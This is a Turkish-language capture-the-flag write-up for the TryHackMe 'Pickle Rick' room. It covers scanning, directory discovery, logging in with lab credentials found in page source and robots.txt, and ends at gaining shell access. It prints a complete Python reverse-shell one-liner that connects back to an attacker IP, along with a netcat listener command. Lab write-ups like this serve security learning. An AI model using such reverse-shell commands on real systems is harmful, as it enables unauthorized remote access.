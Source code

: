 ## Giriş
Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/picklerick">Pickle Rick</a> makinesinin çözümünü paylaşacağım.


Bu Rick ve Morty temalı mücadele, bir web sunucusundan yararlanmanızı ve Rick'in iksirini yapmasına ve kendisini turşudan insana dönüştürmesine yardımcı olacak üç malzeme bulmanızı gerektirir.

## Görev 1 Pickle Rick
1.
```
Rick'in ihtiyacı olan ilk malzeme nedir?
```

Her zamanki gibi nmap taraması ile başlayalım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a1.png?raw=true)

80 portunda web sitesi çalıştığnı görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a2.png?raw=true)

Sayfanın kaynak koduna baktığımız zaman kullanıcı adını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a3.png?raw=true)

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a4.png?raw=true)

robots.txt login.php ve portal.php sayfalarını bulduk.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a5.png?raw=true)

robot.txt yi açtığımızda karşımıza çıkan sayfa. Şifre olabileceğini düşünerek login sayfasına giriş yapmayı deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a6.png?raw=true)

Giriş yapmayı başardım.
> R1ckRul3s:Wubbalubbadubdub

Komut çalıştırmayı deneyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a7.png?raw=true)
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a8.png?raw=true)

Bu dosyanın içeriği cat komutu ile kontrol edilmek istendiğinde komut engelleniyor

Konsola python reverse shell komutu yazmayı deniyorum. [Reverse Shell Generator](https://www.revshells.com/) kullanıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a9.png?raw=true)

> export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

netcat çalıştırmayı unutmayın.

> nc -nvlp 1234

Makineye girmeyi başardık.

















